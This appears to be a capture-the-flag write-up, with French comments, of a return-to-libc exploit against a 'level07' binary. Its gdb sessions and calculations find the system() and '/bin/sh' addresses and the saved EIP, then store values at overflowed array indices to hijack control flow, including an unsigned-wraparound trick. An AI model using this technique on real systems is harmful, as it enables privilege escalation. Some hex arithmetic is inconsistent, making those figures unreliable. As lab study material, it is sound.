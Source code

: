index overflow
pas d'utilisation possible de l'env car clear au début du code !!


### Find occurence of /bin/sh

(gdb) break main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) print &system  
$2 = (<text variable, no debug info> *) 0xf7e6aed0 <system>
(gdb) find &system,+9999999,"/bin/sh" 
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) 

system address : 0xf7e6aed0
bin/sh address : 0xf7f897ec

### Find EIP of main function
(gdb) b main
Note: breakpoint 1 also set at pc 0x8048729.
Breakpoint 3 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 
Breakpoint 1, 0x08048729 in main ()
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x8048729 in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args: 
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebp at 0xffffd708, eip at 0xffffd70c
(gdb) 

=> eip address 0xffffd70c de la fonction main
0x8048741
### Find address of tab[100]

address is 0xffffcd24

```
gdb
start 
disas main 

   0x080488df <+444>:   test   %eax,%eax
   0x080488e1 <+446>:   jne    0x80488f8 <main+469>
   0x080488e3 <+448>:   lea    0x24(%esp),%eax
   0x080488e7 <+452>:   mov    %eax,(%esp)
   0x080488ea <+455>:   call   0x8048630 <store_number>
   0x080488ef <+460>:   mov    %eax,0x1b4(%esp)
   0x080488f6 <+467>:   jmp    0x8048965 <main+578>
   0x080488f8 <+469>:   lea    0x1b8(%esp),%eax
   0x080488ff <+476>:   mov    %eax,%edx
   0x08048901 <+478>:   mov    $0x8048d61,%eax
   0x08048906 <+483>:   mov    $0x4,%ecx
   0x0804890b <+488>:   mov    %edx,%esi

   b*0x080488ea
   r
   x $eax
=> 0xffffd544:     0x00000000

```

### Calculate tab index to overwrite

interval between eip and tab 0xffffd70c - 0xffffd544 = 0x9E8 = 456 / 4 = 114
On divise par 4 car index d'int donc 4 bytes

### Set sellcode to eip+8

0xf7f897ec => 4160264172

insruction : store
number : 4160264172
index : 116 (eip + 2 * 4)

### Set system address to eip

0xf7e6aed0 => 4159090384

insruction : store
number : 4159090384
index : 114

problème : 114 est divisible par 3
(UINTMAX + 1) + 456 = 456
(4294967295 + 1 + 456) / 4 = 1073741938







https://stackoverflow.com/questions/19124095/return-to-lib-c-buffer-overflow-exercise-issue